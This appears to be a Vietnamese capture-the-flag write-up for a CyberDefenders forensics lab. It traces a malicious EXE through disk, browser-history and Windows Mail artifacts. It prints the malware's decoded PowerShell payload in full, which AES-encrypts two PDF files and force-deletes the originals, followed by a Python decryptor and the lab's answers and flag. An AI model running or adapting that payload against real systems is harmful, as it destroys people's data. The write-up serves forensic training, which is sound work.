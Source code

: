 # Slient Breach

![image](images/img1.png)

## Solution

>Q1. What is the MD5 hash of the potentially malicious EXE file the user downloaded?

Nhận được file `ad1`, load vô FTK imager tìm thấy 1 file `exe` khá sú

![image](images/img2.png)

`Answer: 336A7CF476EBC7548C93507339196ABB`

>Q2. What is the URL from which the file was downloaded?

Truy cập vào `History` của  `Microsoft Edge` bằng `DB SQlite`

![image](images/img3.png)

`Answer: http://192.168.16.128:8000/IMF-Info.pdf.exe`

>Q3. What application did the user use to download this file?

Tại câu trên

`Answer: Microsoft Edge`

>Q4. By examining Windows Mail artifacts, we found an email address mentioning three IP addresses of servers that are at risk or compromised. What are the IP addresses?

Trước hết cần xác định xem dịch vụ email nào đã được chạy trên máy, vì mình không thấy thư mục `windows` nên mình bỏ hướng đi check trong `prefetch`. Thay vào đó mình sẽ đi kiểm tra trong `NTUSER.DAT` hive, cụ thể là trong key `Software\Microsoft\Windows\CurrentVersion\Explorer\UserAssist\
`

![image](images/img4.png)

Sau đó sẽ đi trích xuất file `HxStore.hxd` tại path `C:\Users\AppData\Local\Packages`

![image](images/img5.png)

File này được sinh ra bằng `Windows Mail`, lưu ở định dạng nhị phân, không theo chuẩn `EML/MBOX`, nên mình sẽ dùng strings để đọc file

![image](images/img6.png)

`Answer: 145.67.29.88, 212.33.10.112, 192.168.16.128`

>Q4. By examining the malicious executable, we found that it uses an obfuscated PowerShell script to decrypt specific files. What predefined password does the script use for encryption?

Phân tích file `exe` kia mình dùng strings cho nhanh vì reverse mất khá nhiều thời gian

![image](images/img7.png)

Đoạn mã pwsh khá đơn giản, giải mã chuỗi base64 bị đảo ngược và thực thi nó trực tiếp bằng `Invoke-Expression`. Và đây là nội dung sau khi decode

```powershell
$password = "Imf!nfo#2025Sec$"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

# List of input files
$inputFiles = @(
    "C:\\Users\\ethan\\Desktop\\IMF-Secret.pdf",
    "C:\\Users\\ethan\\Desktop\\IMF-Mission.pdf"
)

foreach ($inputFile in $inputFiles) {
    $outputFile = $inputFile -replace '\.pdf$', '.enc'

    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $key
    $aes.IV = $iv
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $encryptor = $aes.CreateEncryptor()

    $plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

    $outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

    $cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
    $cryptoStream.FlushFinalBlock()

    $cryptoStream.Close()
    $outStream.Close()

    Remove-Item $inputFile -Force
}

```
Thấy được ngay mật khẩu trong script

`Answer: Imf!nfo#2025Sec$`

>Q5. After identifying how the script works, decrypt the files and submit the secret string.

Script trên thực hiện mã hóa 2 file `.pdf` thành 2 file `.enc` bằng `AES-CBC-Padding` với `key` và `iv` đã có sẵn trong đoạn code. Tiến hành decrypt thôi

```python
from Crypto.Protocol.KDF import PBKDF2
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Thiết lập mật khẩu và các tham số giải mã
password = "Imf!nfo#2025Sec$"
salt = b"\x01\x02\x03\x04\x05\x06\x07\x08"
iterations = 10000

# Tạo key và IV từ password
data = PBKDF2(password, salt, dkLen=48, count=iterations)
key = data[:32]
iv = data[32:]

# Mở file đã mã hóa
with open("IMF-Mission.enc", "rb") as f:
    encrypted = f.read()

# Giải mã nội dung
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = unpad(cipher.decrypt(encrypted), AES.block_size)

# Ghi ra file PDF
with open("IMF-Mission.pdf", "wb") as f:
    f.write(decrypted)
```

![image](images/img8.png)

`Answer: CyberDefenders{N3v3r_eX3cuTe_F!l3$_dOwnL0ded_fr0m_M@lic10u5_$erV3r}`




